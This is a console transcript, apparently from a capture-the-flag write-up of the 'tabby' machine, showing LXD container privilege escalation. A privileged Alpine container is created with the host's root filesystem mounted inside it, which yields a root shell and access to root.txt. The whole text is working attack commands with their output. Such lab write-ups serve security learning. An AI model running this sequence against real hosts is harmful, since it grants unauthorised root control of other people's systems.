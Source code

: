 ```console
ash@tabby:~$ lxc image import alpine-v3.12-x86_64-20200629_1413.tar.gz --alias kurohat # import the image in lxd
<e-v3.12-x86_64-20200629_1413.tar.gz --alias kurohat
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first instance, try: lxc launch ubuntu:18.04

ash@tabby:~$ lxc image list # check if the image is imported
lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| kurohat | d2bd0fb4704c | no     | alpine v3.12 (20200629_14:13) | x86_64       | CONTAINER | 3.05MB | Jun 29, 2020 at 7:05pm (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
ash@tabby:~$ lxc init kurohat mycontainer -c security.privileged=true # create container
lxc init kurohat mycontainer -c security.privileged=true
Creating mycontainer
ash@tabby:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true # mount the host file system
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer
ash@tabby:~$ lxc start mycontainer # start the container 
lxc start mycontainer
ash@tabby:~$ lxc exec mycontainer /bin/sh # use the container to execute shell
lxc exec mycontainer /bin/sh
~ # whoami  
whoami
root
~ # cat /mnt/root/root/root.txt
```